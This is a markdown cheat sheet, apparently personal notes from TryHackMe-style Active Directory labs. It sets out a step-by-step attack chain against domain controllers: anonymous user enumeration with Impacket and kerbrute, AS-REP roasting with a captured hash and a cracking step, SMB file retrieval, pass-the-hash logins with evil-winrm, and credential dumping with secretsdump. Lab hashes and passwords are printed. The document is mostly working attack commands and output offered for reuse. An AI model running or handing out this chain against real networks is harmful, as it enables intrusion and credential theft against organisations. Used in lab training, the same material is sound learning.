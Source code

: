 # Domain Controllers
## Basics 
- Find the NETBIOS Domain Name
````
nbtscan -v 10.10.8.1-254
````
- Should also be in nmap output
````
3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   DNS_Tree_Name: spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2021-08-20T18:00:52+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Issuer: commonName=AttacktiveDirectory.spookysec.local
````
- Add to `/etc/hosts`
## Impacket
- Location:
````
/usr/share/doc/python3-impacket/examples/
````
- If we have IPC$ access without authentication we are able to list the domain users as anonymous
````
python3 lookupsid.py anonymous@10.10.10.10 | tee users.txt
````
- Isolate the users with `SidTypeUser`
````
grep SidTypeUser users.txt | awk '{print $2}' | cut -d "\\" -f2 > users.txt
````
- Now, let’s use `GetNPUsers.py` to find users without Kerberos pre-authentication:
- Example Syntax
````
kerbrute -users userlist.txt -domain spookysec.local -dc-ip 10.10.55.114
Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

[*] Valid user => james
[*] Valid user => svc-admin [NOT PREAUTH]
[*] Valid user => James
[*] Valid user => robin
[*] Blocked/Disabled user => guest
[*] Valid user => darkstar
````
````
python3 GetNPUsers.py vulnnet-rst.local/ -no-pass -userfile usernames.txt
````
- Should retrive a hash if the command is sucessful
````
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:692e76f70a8772c46ed94e73130460c8$713b0693498fdaff68642d78e713ca965e5007d5d864ca727289930783fe28f00bf79fef8126c4722d09cafc72ec60e940d31297591f67ce049030cb531ddd9c83cd37796fbf414b830a7c90fe26d2c45d6f2b624cd4413c58e3dbb77519dd69906248f8db27b1974b880a826003e562e25d9de9e4cb7cfa85c1de954761053b7d51a455530001348b46909f91f4e80bae7374071339f0920bb3e2ad95169d20f05d0cd586882facb63c058072dacb7ec8ddbcd9297331e1f6fb6d844ea7967659bee38fde4431af9f9608e9adcb38cb6e20e72bcf61c524f480b5ea2530e16dbeed2272855a61a05c03e84653aa1a3bbbd5ece06633
````
- Crack the hash with `john`
### Samba authenticated access
````
smbclient -U vulnnet-rst.local/t-skid //10.10.100.15/NETLOGON
````
- Cat out files with `smb`
````
Enter VULNNET-RST.LOCAL\t-skid's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Mar 17 00:15:49 2021
  ..                                  D        0  Wed Mar 17 00:15:49 2021
  ResetPassword.vbs                   A     2821  Wed Mar 17 00:18:14 2021

        8540159 blocks of size 4096. 4318542 blocks available
smb: \> get ResetPassword.vbs -
````
### evil-winrm
- Connect with pass the hash attack
````
evil-winrm -i 10.10.100.15 -u administrator -H "c2597747aa5e43022a3a3049a3c3b09d"
evil-winrm -i 10.10.100.15 -u a-whitehat -p "bNdKVkjv3RR9ht"
````
### Dump hashes
- Use `secretsdump.py` with impacket
````
python3 secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.100.15
````









































